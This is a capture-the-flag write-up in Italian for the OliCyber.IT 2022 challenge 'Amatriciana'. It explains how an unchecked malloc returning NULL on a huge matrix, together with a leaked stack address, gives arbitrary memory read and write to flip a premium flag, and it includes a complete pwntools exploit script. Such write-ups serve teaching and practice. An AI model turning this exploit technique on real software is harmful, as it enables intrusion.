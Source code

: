# OliCyber.IT 2022 - Competizione nazionale

## [binary-4] Amatriciana

La challenge presenta innanzitutto un meraviglioso gabibbo che offre un piatto di pasta all'amatriciana.
Dopo questa immagine bucolica, offre all'utente la possibilità di immagazzinare matrici di numeri reali in double precision e farci dei calcoli. Guardando il sorgente si vede abbastanza in fretta che per ottenere la flag bisogna essere utenti premium e utilizzare la funzione numero 6 del menù, prodotto fra matrici. Purtroppo però non esiste modo lecito di diventare utente premium.

### Soluzione

Notiamo che nella funzione `new_matrix` viene volontariamente leakato un indirizzo. L'indirizzo in questione è sullo stack perché è l'indirizzo di una variabile locale, ma permetterà abbinato ad altri bug di bypassare l'ASLR.

L'errore fatale in questo caso sta nella seguente riga.

```c
  mat->elem = malloc(sizeof(double)*ncols*nrows);
```

L'errore non è tanto qui, quanto nel fatto che nessuno controlla se `malloc` ha ritornato un puntatore valido o `NULL`. Questo è un grosso problema, perché è molto facile fare fallire malloc per volontariamente fargli restituire `NULL`, basta richiedere troppa memoria (e.g. 64GB), che si può ottenere abbastanza facilmente visto che la memoria richiesta è `ncols*nrows*sizeof(double)`. Essendo `ncols` e `nrows` degli interi a 64 bit, basta prendere `ncols = nrows = 2^30` per andare a richiedere un totale di `2^63` bytes di memoria. La richiesta fallirà sicuramente.

La parte interessante è che adesso possiamo leggere e scrivere dove vogliamo in memoria, perché anche se `malloc` è fallito, il programma non lo sa. Per esempio, la funzione `edit_element` permette di fare

```c
  scanf("%le", &mat->elem[row*mat->ncols + col]);
```

Essendo `mat->elem = NULL = 0`, abbiamo una primitiva di scrittura. Possiamo scrivere esattamente 8 bytes ad un indirizzo arbitrario allineato a 8 bytes, in quanto andremo a scrivere direttamente all'indirizzo `8*(row*mat->ncols + col)`. Notare che questo valore varia fra `0` e `2^63`. Dato che gli indirizzi in userspace hanno solo gli ultimi 48 bit diversi da zero, abbiamo a tutti gli effetti scrittura arbitraria. Allo stesso modo, `print_element` permette di leggere ad indirizzi mappati arbitrari per lo stesso motivo

```c
  printf("%.20e\n", mat->elem[row*mat->ncols + col]);
```

La strategia è quindi:

- allocare una matrice troppo grossa, meglio se è `2^30*2^30`
- leggere qualcosa sullo stack usando il leak di informazioni per bypassare ASLR
- scrivere un valore qualsiasi diverso da 0 sulla variabile globale `is_premium`, che sta nella sezione `.bss` del binario. Questo vuol dire che, sapendo l'indirizzo base del binario sappiamo anche l'indirizzo di questa variabile.
- fare un finto prodotto fra matrici e ottenere la flag
- guardare di nuovo il banner del Gabibbo.

La parte più complicata di tutto questo è probabilmente capire la specifica IEEE 754 che definisce come viene interpretata una sequenza di 8 bytes come numero reale. Per fortuna esistono `struct.pack` e `struct.unpack` che sono funzioni builtin del python che permettono agilmente di effettuare la trasformazione. Abbinate a `u64` e `p64` di pwntools permettono di avere il numero intero che ne è la rappresentazione.

### Exploit

```py
#!/usr/bin/env python3
from pwn import ELF, context, process, ui, log, u64, p64, args, remote
from struct import pack as spack, unpack as sunpack
from pathlib import Path

wd = Path(__file__).parent.resolve() / "src"
exe = context.binary = ELF(wd / "amatriciana")
remotehost = ("amatriciana.challs.olicyber.it", 12302)


def menu(io, choice: int):
    io.recvuntil(b"8) Esci\n")
    io.sendline(f"{choice}".encode())


def newmat(io, rows: int, cols: int, name: str):
    menu(io, 0)
    io.sendlineafter(b"colonne?", f"{rows} {cols}".encode())
    io.sendlineafter(b"a questa matrice?\n", name.encode())
    io.recvuntil(b"successo\n")
    io.recvuntil(b"nrows: ")
    return int(io.recvline(False).decode(), 16)


def print_mat_short(io, nmat: int):
    menu(io, 2)
    io.sendlineafter(b"Quale matrice?\n", f"{nmat}")
    return io.recvline()


def arb_read(addr: int):
    log.info(f"Adesso leggo all'indirizzo {addr:#018x}")
    if addr % 8 != 0:
        log.error("Vogliamo indirizzi multipli di sizeof(double) = 8")
    addr //= 8
    menu(io, 3)
    io.sendlineafter(b"matrice?", f"{bigmat}".encode())
    row = addr // bigrow
    col = addr % bigrow
    log.debug(f"Requesting pos {row:#x} {col:#x}")
    io.sendlineafter(b"elemento?\n", f"{row} {col}".encode())
    return io.recvline(False)


def arb_write(addr: int, value: int):
    if addr % 8 != 0:
        log.error("Vogliamo indirizzi allineati a 8")
    addr //= 8
    menu(io, 4)
    io.sendlineafter(b"matrice?", f"{bigmat}".encode())
    row = addr // bigrow
    col = addr % bigrow
    log.debug(f"Requesting pos {row:#x} {col:#x}")
    io.sendlineafter(b"elemento?", f"{row} {col}".encode())

    sending = sunpack("<d", p64(value))[0]
    io.sendline(f"{sending:.20e}".encode())


def get_flag(io):
    menu(io, 6)
    io.sendlineafter(b"matrici?\n", b"0 1")
    io.recvuntil(b"accontentati\n")
    flag = io.recvline(False)
    log.success(f"Flag: {flag.decode()}")
    return flag


if __name__ == "__main__":
    io = process([exe.path], env={"FLAG": "flag{cusumano}"}, cwd=wd) if not args.REMOTE else remote(*remotehost)
    # ui.pause()
    addr = newmat(io, 1, 1, "cusumano")
    log.info(f"Leaked addr: {addr:#016x}")
    # Here we have main
    main_p78 = addr + 0x60

    bigrow = (1 << 30)
    bigmat = 1
    newmat(io, bigrow, bigrow, "manuele")
    leaked = arb_read(main_p78)
    leak_addr = u64(spack("<d", float(leaked)))
    log.info(f"Float number leaked: {leaked}, converted to addr {leak_addr:#016x}")
    exe.address = leak_addr - exe.sym.main
    log.success(f"Leaked address of exe: {exe.address:#016x}")
    arb_write(exe.sym.is_premium, 1)
    get_flag(io)

    io.close()
```

### Flag

Il programma leaka da solo delle informazioni, con quello si rompe ASLR.
Poi il programma alloca con malloc matrici di dimensione decisa dall'utente, ma non controlla se malloc fallisce.
Se chiedi una matrice abbastanza grande, malloc fallisce e tu riesci a scrivere dove vuoi.
Sovrascrivi una variabile globale (`is_admin`) e hai vinto.